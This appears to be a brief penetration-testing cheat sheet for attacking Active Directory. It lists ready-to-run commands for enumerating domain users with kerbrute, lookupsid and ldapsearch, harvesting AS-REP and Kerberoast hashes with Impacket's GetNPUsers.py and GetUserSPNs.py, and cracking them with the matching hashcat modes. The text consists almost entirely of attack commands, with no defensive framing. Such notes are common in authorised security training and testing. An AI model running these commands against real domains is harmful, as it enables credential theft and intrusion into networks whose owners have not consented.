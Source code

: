 # Active Directory

# asreproast

### get a list of valid users

```
# Kerbrute
kerbrute userenum --dc $ip -d $dom /path/to/userlist

# Impacket's lookupsid
lookupsid.py anonymous@$ip

# ldapsearch
ldapsearch -h $ip -p 389 -x -b "dc=domain,dc=local"

```

### check users for asreproastable victim

```
GetNPUsers.py -usersfile /path/to/list.txt -format hashcat -outputfile hashes.asreproast -dc-ip $ip $dom/
# crack the hash with hashcat -m 18200

```

# kerberoast

### enumerate spn in search of a victim

```
GetUserSPNs.py -dc-ip $ip -outputfile ./kerberoast.hashes -usersfile ./customusers.txt $dom/username:password
# crack the hash with hashcat -m 13100

```